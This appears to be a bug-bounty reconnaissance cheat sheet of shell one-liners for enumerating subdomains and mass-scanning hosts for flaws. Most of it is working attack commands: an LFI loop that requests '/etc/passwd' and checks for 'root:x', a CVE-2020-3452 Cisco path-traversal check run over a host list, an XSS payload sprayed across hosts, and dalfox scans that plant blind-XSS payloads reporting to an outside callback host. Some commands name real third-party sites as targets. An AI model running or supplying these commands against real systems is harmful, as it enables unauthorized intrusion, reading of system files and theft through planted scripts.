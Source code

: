 # Method 1

## domains

cat wildcards.txt | assetfinder -subs-only | anew domains

amass enum -df wildcards.txt | anew domains

subfinder -silent -dL wildcards.txt| anew domains

## one liners and tools

sort -u domains | httprobe > uniq.txt

crlfuzz -l uniq.txt -s

gau uniq.txt | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'

cat uniq.txt |waybackurls | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b l3gend.xss.ht pipe > OUT.txt

python3 ~/tools/Corsy/corsy.py -i uniq.txt 

python3 ~/tools/XSStrike/xsstrike.py -u "https://www.glassdoor.com/rss/interviews.rss?id=lol" 

python3 ~/tools/smuggler/smuggler.py -u "https://google.com" -m GET -q

python3 ~/tools/mass-bounty/CRLF-Injection-Scanner/crlf_scan.py -i uniq.txt

        * CVE-2020-3452
        
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
 
cat uniq.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done

```text
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

subzy -targets domains -hide_fails

```text
jaeles scan -s /root/.jaeles/base-signatures/cves/* -U domains.txt
```

## Heavy 

eyewitness --web -f uniq.txt -d /path_to_save_screenshots ##### optional , takes time, better grep for juicy domains and move forward

```bash
for I in $(ls); do 
        echo "$I" >> index.html;
        echo "<img src=$I><br>" >> index.html;
done
```

## dalfox

python3 ~/tools/ParamSpider/paramspider.py --domain google.com -o param.txt

dalfox -b l3gend.xss.ht file param.txt

